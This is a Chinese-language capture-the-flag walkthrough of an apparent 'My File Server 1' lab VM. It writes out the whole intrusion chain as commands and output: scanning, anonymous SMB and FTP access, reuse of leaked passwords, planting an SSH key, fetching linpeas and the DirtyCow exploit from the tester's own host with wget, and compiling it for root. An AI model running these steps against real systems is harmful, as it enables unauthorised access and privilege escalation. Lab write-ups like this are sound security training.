



## 端口扫描

```bash
┌─[fforu@parrot]─[~/workspace]
└──╼ $sudo nmap -sT --min-rate 9999 192.168.99.48
Not shown: 902 filtered tcp ports (no-response), 6 filtered tcp ports (host-unreach), 85 closed tcp ports (conn-refused)
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
80/tcp   open  http
111/tcp  open  rpcbind
445/tcp  open  microsoft-ds
2049/tcp open  nfs
2121/tcp open  ccproxy-ftp
MAC Address: 00:0C:29:43:00:8F (VMware)

┌─[✗]─[fforu@parrot]─[~/workspace]
└──╼ $sudo nmap -sT -sCV -O -p 21,22,80,111,445,2049,2121 192.168.99.48
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-26 03:13 EST
Nmap scan report for 192.168.99.48
Host is up (0.00054s latency).

PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 3.0.2
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxrwxrwx    3 0        0              16 Feb 19  2020 pub [NSE: writeable]
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.99.35
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.2 - secure, fast, stable
|_End of status
22/tcp   open  ssh         OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 75:fa:37:d1:62:4a:15:87:7e:21:83:b9:2f:ff:04:93 (RSA)
|   256 b8:db:2c:ca:e2:70:c3:eb:9a:a8:cc:0e:a2:1c:68:6b (ECDSA)
|_  256 66:a3:1b:55:ca:c2:51:84:41:21:7f:77:40:45:d4:9f (ED25519)
80/tcp   open  http        Apache httpd 2.4.6 ((CentOS))
|_http-server-header: Apache/2.4.6 (CentOS)
|_http-title: My File Server
| http-methods: 
|_  Potentially risky methods: TRACE
111/tcp  open  rpcbind     2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  3,4         2049/tcp   nfs
|   100003  3,4         2049/tcp6  nfs
|   100003  3,4         2049/udp   nfs
|   100003  3,4         2049/udp6  nfs
|   100005  1,2,3      20048/tcp   mountd
|   100005  1,2,3      20048/tcp6  mountd
|   100005  1,2,3      20048/udp   mountd
|   100005  1,2,3      20048/udp6  mountd
|   100021  1,3,4      42919/udp6  nlockmgr
|   100021  1,3,4      46938/tcp6  nlockmgr
|   100021  1,3,4      49098/udp   nlockmgr
|   100021  1,3,4      50589/tcp   nlockmgr
|   100024  1          34803/udp   status
|   100024  1          39045/tcp   status
|   100024  1          48753/udp6  status
|   100024  1          50273/tcp6  status
|   100227  3           2049/tcp   nfs_acl
|   100227  3           2049/tcp6  nfs_acl
|   100227  3           2049/udp   nfs_acl
|_  100227  3           2049/udp6  nfs_acl
445/tcp  open  netbios-ssn Samba smbd 4.9.1 (workgroup: SAMBA)
2049/tcp open  nfs_acl     3 (RPC #100227)
2121/tcp open  ftp         ProFTPD 1.3.5
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: ERROR
MAC Address: 00:0C:29:43:00:8F (VMware)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|storage-misc
Running (JUST GUESSING): Linux 3.X|2.6.X|4.X|5.X (97%), Synology DiskStation Manager 5.X (95%), Netgear RAIDiator 4.X (87%)
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:2.6 cpe:/a:synology:diskstation_manager:5.2 cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5 cpe:/o:netgear:raidiator:4.2.28
Aggressive OS guesses: Linux 3.4 - 3.10 (97%), Linux 2.6.32 - 3.10 (97%), Linux 2.6.32 - 3.13 (97%), Linux 2.6.39 (97%), Linux 3.10 (97%), Linux 2.6.32 (96%), Synology DiskStation Manager 5.2-5644 (95%), Linux 2.6.32 - 3.5 (92%), Linux 3.0 - 3.1 (91%), Linux 3.2 - 3.10 (91%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 1 hop
Service Info: Host: FILESERVER; OS: Unix

Host script results:
| smb2-time: 
|   date: 2024-02-26T16:14:02
|_  start_date: N/A
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.9.1)
|   Computer name: localhost
|   NetBIOS computer name: FILESERVER\x00
|   Domain name: \x00
|   FQDN: localhost
|_  System time: 2024-02-26T21:44:03+05:30
|_clock-skew: mean: 6h10m01s, deviation: 3h10m28s, median: 7h59m59s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 49.62 seconds
```

## smb共享文件搜集

```bash
┌─[✗]─[fforu@parrot]─[~/workspace]
└──╼ $sudo smbmap -H 192.168.99.48
[+] IP: 192.168.99.48:445       Name: 192.168.99.48                                     
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        print$                                                  NO ACCESS       Printer Drivers
        smbdata                                                 READ, WRITE     smbdata
        smbuser                                                 NO ACCESS       smbuser
        IPC$                                                    NO ACCESS       IPC Service (Samba 4.9.1)
┌─[fforu@parrot]─[~/workspace]
└──╼ $sudo smbclient //192.168.99.48/smbdata
Password for [WORKGROUP\root]:
Anonymous login successful
Try "help" to get a list of possible commands.
smb: \> ?
?              allinfo        altname        archive        backup         
blocksize      cancel         case_sensitive cd             chmod          
chown          close          del            deltree        dir            
du             echo           exit           get            getfacl        
geteas         hardlink       help           history        iosize         
lcd            link           lock           lowercase      ls             
l              mask           md             mget           mkdir          
more           mput           newer          notify         open           
posix          posix_encrypt  posix_open     posix_mkdir    posix_rmdir    
posix_unlink   posix_whoami   print          prompt         put            
pwd            q              queue          quit           readlink       
rd             recurse        reget          rename         reput          
rm             rmdir          showacls       setea          setmode        
scopy          stat           symlink        tar            tarmode        
timeout        translate      unlock         volume         vuid           
wdel           logon          listconnect    showconnect    tcon           
tdis           tid            utimes         logoff         ..             
!              
smb: \> prompt
smb: \> ls -la
NT_STATUS_NO_SUCH_FILE listing \-la
smb: \> ls
  .                                   D        0  Mon Feb 26 12:45:08 2024
  ..                                  D        0  Tue Feb 18 06:47:54 2020
  anaconda                            D        0  Tue Feb 18 06:48:15 2020
  audit                               D        0  Tue Feb 18 06:48:15 2020
  boot.log                            N     6120  Tue Feb 18 06:48:16 2020
  btmp                                N      384  Tue Feb 18 06:48:16 2020
  cron                                N     4813  Tue Feb 18 06:48:16 2020
  dmesg                               N    31389  Tue Feb 18 06:48:16 2020
  dmesg.old                           N    31389  Tue Feb 18 06:48:16 2020
  glusterfs                           D        0  Tue Feb 18 06:48:16 2020
  lastlog                             N   292292  Tue Feb 18 06:48:16 2020
  maillog                             N     1982  Tue Feb 18 06:48:16 2020
  messages                            N   684379  Tue Feb 18 06:48:17 2020
  ppp                                 D        0  Tue Feb 18 06:48:17 2020
  samba                               D        0  Tue Feb 18 06:48:17 2020
  secure                              N    11937  Tue Feb 18 06:48:17 2020
  spooler                             N        0  Tue Feb 18 06:48:17 2020
  tallylog                            N        0  Tue Feb 18 06:48:17 2020
  tuned                               D        0  Tue Feb 18 06:48:17 2020
  wtmp                                N    25728  Tue Feb 18 06:48:17 2020
  xferlog                             N      100  Tue Feb 18 06:48:17 2020
  yum.log                             N    10915  Tue Feb 18 06:48:17 2020
  sshd_config                         N     3906  Wed Feb 19 02:46:38 2020

                19976192 blocks of size 1024. 18184984 blocks available
smb: \> get secure
getting file \secure of size 11937 as secure (555.1 KiloBytes/sec) (average 555.1 KiloBytes/sec)
smb: \> 
```

```bash
┌─[fforu@parrot]─[~/workspace]
└──╼ $cat sshd_config 
##      $OpenBSD: sshd_config,v 1.100 2016/08/15 12:32:04 naddy Exp $

# This is the sshd server system-wide configuration file.  See
# sshd_config(5) for more information.

# This sshd was compiled with PATH=/usr/local/bin:/usr/bin

# The strategy used for options in the default sshd_config shipped with
# OpenSSH is to specify options with their default value where
# possible, but leave them commented.  Uncommented options override the
# default value.

# If you want to change the port on a SELinux system, you have to tell
# SELinux about this change.
# semanage port -a -t ssh_port_t -p tcp #PORTNUMBER
#
#Port 22
#AddressFamily any
#ListenAddress 0.0.0.0
#ListenAddress ::

HostKey /etc/ssh/ssh_host_rsa_key
#HostKey /etc/ssh/ssh_host_dsa_key
HostKey /etc/ssh/ssh_host_ecdsa_key
HostKey /etc/ssh/ssh_host_ed25519_key

# Ciphers and keying
#RekeyLimit default none

# Logging
#SyslogFacility AUTH
SyslogFacility AUTHPRIV
#LogLevel INFO

# Authentication:

#LoginGraceTime 2m
PermitRootLogin yes
#StrictModes yes
#MaxAuthTries 6
#MaxSessions 10

#PubkeyAuthentication yes

# The default is to check both .ssh/authorized_keys and .ssh/authorized_keys2
# but this is overridden so installations will only check .ssh/authorized_keys
AuthorizedKeysFile      .ssh/authorized_keys

#AuthorizedPrincipalsFile none

#AuthorizedKeysCommand none
#AuthorizedKeysCommandUser nobody

# For this to work you will also need host keys in /etc/ssh/ssh_known_hosts
#HostbasedAuthentication no
# Change to yes if you don't trust ~/.ssh/known_hosts for
# HostbasedAuthentication
#IgnoreUserKnownHosts no
# Don't read the user's ~/.rhosts and ~/.shosts files
#IgnoreRhosts yes

# To disable tunneled clear text passwords, change to no here!
#PasswordAuthentication yes
#PermitEmptyPasswords no
PasswordAuthentication no

# Change to no to disable s/key passwords
#ChallengeResponseAuthentication yes
ChallengeResponseAuthentication no

# Kerberos options
#KerberosAuthentication no
#KerberosOrLocalPasswd yes
#KerberosTicketCleanup yes
#KerberosGetAFSToken no
#KerberosUseKuserok yes

# GSSAPI options
GSSAPIAuthentication yes
GSSAPICleanupCredentials no
#GSSAPIStrictAcceptorCheck yes
#GSSAPIKeyExchange no
#GSSAPIEnablek5users no

# Set this to 'yes' to enable PAM authentication, account processing,
# and session processing. If this is enabled, PAM authentication will
# be allowed through the ChallengeResponseAuthentication and
# PasswordAuthentication.  Depending on your PAM configuration,
# PAM authentication via ChallengeResponseAuthentication may bypass
# the setting of "PermitRootLogin without-password".
# If you just want the PAM account and session checks to run without
# PAM authentication, then enable this but set PasswordAuthentication
# and ChallengeResponseAuthentication to 'no'.
# WARNING: 'UsePAM no' is not supported in Red Hat Enterprise Linux and may cause several
# problems.
UsePAM yes

#AllowAgentForwarding yes
#AllowTcpForwarding yes
#GatewayPorts no
X11Forwarding yes
#X11DisplayOffset 10
#X11UseLocalhost yes
#PermitTTY yes
#PrintMotd yes
#PrintLastLog yes
#TCPKeepAlive yes
#UseLogin no
#UsePrivilegeSeparation sandbox
#PermitUserEnvironment no
#Compression delayed
#ClientAliveInterval 0
#ClientAliveCountMax 3
#ShowPatchLevel no
#UseDNS yes
#PidFile /var/run/sshd.pid
#MaxStartups 10:30:100
#PermitTunnel no
#ChrootDirectory none
#VersionAddendum none

# no default banner path
#Banner none

# Accept locale-related environment variables
AcceptEnv LANG LC_CTYPE LC_NUMERIC LC_TIME LC_COLLATE LC_MONETARY LC_MESSAGES
AcceptEnv LC_PAPER LC_NAME LC_ADDRESS LC_TELEPHONE LC_MEASUREMENT
AcceptEnv LC_IDENTIFICATION LC_ALL LANGUAGE
AcceptEnv XMODIFIERS

# override default of no subsystems
Subsystem       sftp    /usr/libexec/openssh/sftp-server

# Example of overriding settings on a per-user basis
#Match User anoncvs
#       X11Forwarding no
#       AllowTcpForwarding no
#       PermitTTY no
#       ForceCommand cvs server
```
AuthorizedKeysFile      .ssh/authorized_keys
这表示靶机仅支持ssh公私钥连接

其中secure包含了smbuser的密码信息：chauthtok



## 目录爆破隐藏文件

由于是文件服务器，没有什么功能点，扫描一下是否存在隐藏文件
```bash
┌─[fforu@parrot]─[~/workspace]
└──╼ $sudo gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u 192.168.99.48 -x txt,rar,zip,html
[sudo] fforu 的密码：
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.99.48
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              txt,rar,zip,html
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.html           (Status: 200) [Size: 174]
/.html                (Status: 403) [Size: 207]
/readme.txt           (Status: 200) [Size: 25]
/.html                (Status: 403) [Size: 207]
```
此时发现了readme.txt

得到了一个密码：rootroot1

## ftp文件操作，制作ssh密钥对

当使用匿名登录ftp时，会发现权限受限，文件无法get并且无法put
但是通过刚才readme得到的密码rootroot1
smbuser/rootroot1就可以成功登录

ssh密钥对制作
```bash
┌─[✗]─[fforu@parrot]─[~/workspace]
└──╼ $sudo ssh-keygen
Generating public/private rsa key pair.
Enter file in which to save the key (/root/.ssh/id_rsa): fforu
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in fforu
Your public key has been saved in fforu.pub
The key fingerprint is:
SHA256:MVKxzlk3SkABxJx5/PC4p+CGoOtwtC3IqxM1X9IFU4o root@parrot
The key's randomart image is:
+---[RSA 3072]----+
|     +=OBo       |
|     .=+=o       |
|    E.oo+=o o    |
|  o . o+.*oo .   |
| ..o o  S..      |
|oo.o. . . .      |
|o++..o . o       |
|+.... o .        |
|==   .           |
+----[SHA256]-----+
┌─[fforu@parrot]─[~/workspace]
└──╼ $ls
45010  45010.c  cipher  cron  fforu  fforu.pub  maillog  messages  secure  sshd_config
```
依据配置文件信息
.ssh/authorized_keys
将公钥上传至此位置
```bash
ftp> pwd
Remote directory: /home/smbuser
ftp> mkdir .ssh
257 "/home/smbuser/.ssh" created
ftp> cd .ssh
250 Directory successfully changed.
ftp> put fforu.pub authorized_keys
local: fforu.pub remote: authorized_keys
229 Entering Extended Passive Mode (|||5327|).
150 Ok to send data.
100% |**********************************************************************************************************************************************|   565        1.52 MiB/s    00:00 ETA
226 Transfer complete.
565 bytes sent in 00:00 (338.08 KiB/s)
ftp> ls -la
229 Entering Extended Passive Mode (|||5159|).
150 Here comes the directory listing.
drwxr-xr-x    2 1000     1000           28 Feb 26 18:10 .
drwx------    3 1000     1000           90 Feb 26 18:09 ..
-rw-r--r--    1 1000     1000          565 Feb 26 18:10 authorized_keys
226 Directory send OK.
```
ssh连接
```bash
┌─[fforu@parrot]─[~/workspace]
└──╼ $sudo ssh -i fforu smbuser@192.168.99.48
The authenticity of host '192.168.99.48 (192.168.99.48)' can't be established.
ED25519 key fingerprint is SHA256:ccn0TgE4/OXtSpg3oMO2gVNYXrps4Zi+XcBgaDZnW78.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.99.48' (ED25519) to the list of known hosts.
   ##############################################################################################
   #                                      Armour Infosec                                        #
   #                         --------- www.armourinfosec.com ------------                       #
   #                                    My File Server - 1                                      #
   #                               Designed By  :- Akanksha Sachin Verma                        #
   #                               Twitter      :- @akankshavermasv                             #
   ##############################################################################################

[smbuser@fileserver ~]$ whoami
smbuser
[smbuser@fileserver ~]$ ls
[smbuser@fileserver ~]$ 
```
## 提权
```bash
[smbuser@fileserver ~]$ uname -a
Linux fileserver 3.10.0-229.el7.x86_64 #1 SMP Fri Mar 6 11:36:42 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
[smbuser@fileserver ~]$ wget 192.168.99.35:9999/linpeas.sh
--2024-02-26 23:45:44--  http://192.168.99.35:9999/linpeas.sh
正在连接 192.168.99.35:9999... 已连接。
已发出 HTTP 请求，正在等待回应... 200 OK
长度：860402 (840K) [text/x-sh]
正在保存至: “linpeas.sh”

100%[=================================================================================================================================================>] 860,402     --.-K/s 用时 0.02s   

2024-02-26 23:45:44 (35.2 MB/s) - 已保存 “linpeas.sh” [860402/860402])

[smbuser@fileserver ~]$ ls
linpeas.sh
[smbuser@fileserver ~]$ chmod +x linpeas.sh 
[smbuser@fileserver ~]$ ./linpeas.sh 


                            ▄▄▄▄▄▄▄▄▄▄▄▄▄▄
                    ▄▄▄▄▄▄▄             ▄▄▄▄▄▄▄▄
             ▄▄▄▄▄▄▄      ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄  ▄▄▄▄
         ▄▄▄▄     ▄ ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄ ▄▄▄▄▄▄
         ▄    ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄
         ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄ ▄▄▄▄▄       ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄
         ▄▄▄▄▄▄▄▄▄▄▄          ▄▄▄▄▄▄               ▄▄▄▄▄▄ ▄
         ▄▄▄▄▄▄              ▄▄▄▄▄▄▄▄                 ▄▄▄▄ 
         ▄▄                  ▄▄▄ ▄▄▄▄▄                  ▄▄▄
         ▄▄                ▄▄▄▄▄▄▄▄▄▄▄▄                  ▄▄
         ▄            ▄▄ ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄   ▄▄
         ▄      ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄
         ▄▄▄▄▄▄▄▄▄▄▄▄▄▄                                ▄▄▄▄
         ▄▄▄▄▄  ▄▄▄▄▄                       ▄▄▄▄▄▄     ▄▄▄▄
         ▄▄▄▄   ▄▄▄▄▄                       ▄▄▄▄▄      ▄ ▄▄
         ▄▄▄▄▄  ▄▄▄▄▄        ▄▄▄▄▄▄▄        ▄▄▄▄▄     ▄▄▄▄▄
         ▄▄▄▄▄▄  ▄▄▄▄▄▄▄      ▄▄▄▄▄▄▄      ▄▄▄▄▄▄▄   ▄▄▄▄▄ 
          ▄▄▄▄▄▄▄▄▄▄▄▄▄▄        ▄          ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄ 
         ▄▄▄▄▄▄▄▄▄▄▄▄▄                       ▄▄▄▄▄▄▄▄▄▄▄▄▄▄
         ▄▄▄▄▄▄▄▄▄▄▄                         ▄▄▄▄▄▄▄▄▄▄▄▄▄▄
         ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄            ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄
          ▀▀▄▄▄   ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄ ▄▄▄▄▄▄▄▀▀▀▀▀▀
               ▀▀▀▄▄▄▄▄      ▄▄▄▄▄▄▄▄▄▄  ▄▄▄▄▄▄▀▀
                     ▀▀▀▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▀▀▀
```
上传linpeas.sh执行

使用内核提权尝试

```bash
[smbuser@fileserver ~]$ wget 192.168.99.35:9999/40616.c
--2024-02-26 23:56:35--  http://192.168.99.35:9999/40616.c
正在连接 192.168.99.35:9999... 已连接。
已发出 HTTP 请求，正在等待回应... 200 OK
长度：4803 (4.7K) [text/x-csrc]
正在保存至: “40616.c”

100%[=================================================================================================================================================>] 4,803       --.-K/s 用时 0.001s  

2024-02-26 23:56:35 (6.47 MB/s) - 已保存 “40616.c” [4803/4803])

[smbuser@fileserver ~]$ gcc 40616.c -o 40616 -pthread
40616.c: 在函数‘procselfmemThread’中:
40616.c:99:9: 警告：传递‘lseek’的第 2 个参数时将指针赋给整数，未作类型转换 [默认启用]
         lseek(f,map,SEEK_SET);
         ^
In file included from 40616.c:28:0:
/usr/include/unistd.h:334:16: 附注：需要类型‘__off_t’，但实参的类型为‘void *’
 extern __off_t lseek (int __fd, __off_t __offset, int __whence) __THROW;
[smbuser@fileserver ~]$ ls -la
总用量 924
drwx------  4 smbuser smbuser   4096 Feb 26 23:57 .
drwxr-xr-x. 3 root    root        20 Feb 19  2020 ..
-rw-rw-r--  1 smbuser smbuser   2821 Feb 26 19:11 40611.c
-rwxrwxr-x  1 smbuser smbuser  14291 Feb 26 23:57 40616
-rw-rw-r--  1 smbuser smbuser   4803 Feb 26 19:15 40616.c
-rwxrwxr-x  1 smbuser smbuser  13480 Feb 26 23:53 40838
-rw-rw-r--  1 smbuser smbuser   4300 Feb 26 19:11 40838.c
-rw-rw-r--  1 smbuser smbuser   4814 Feb 26 19:11 40839.c
-rw-------  1 smbuser smbuser     27 Feb 20  2020 .bash_history
-rw-r--r--  1 smbuser smbuser     18 Mar  6  2015 .bash_logout
-rw-r--r--  1 smbuser smbuser    193 Mar  6  2015 .bash_profile
-rw-r--r--  1 smbuser smbuser    231 Mar  6  2015 .bashrc
drwx------  2 smbuser smbuser     57 Feb 26 23:46 .gnupg
-rwxrwxr-x  1 smbuser smbuser 860402 Feb 26 01:34 linpeas.sh
drwxr-xr-x  2 smbuser smbuser     28 Feb 26 23:40 .ssh
[smbuser@fileserver ~]$ chmod +x 40616
[smbuser@fileserver ~]$ ./40616
DirtyCow root privilege escalation
Backing up /usr/bin/passwd.. to /tmp/bak
Size of binary: 27832
Racing, this may take a while..
thread stopped
/usr/bin/passwd is overwritten
Popping root shell.
Don't forget to restore /tmp/bak
thread stopped
[root@fileserver smbuser]# ls /root
proof.txt
[root@fileserver smbuser]# cat /root/proof.txt 
Best of Luck
af52e0163b03cbf7c6dd146351594a43
```
通过linpeas的提示,对uname的分析以及不断的尝试，使用40616脏牛漏洞成功提权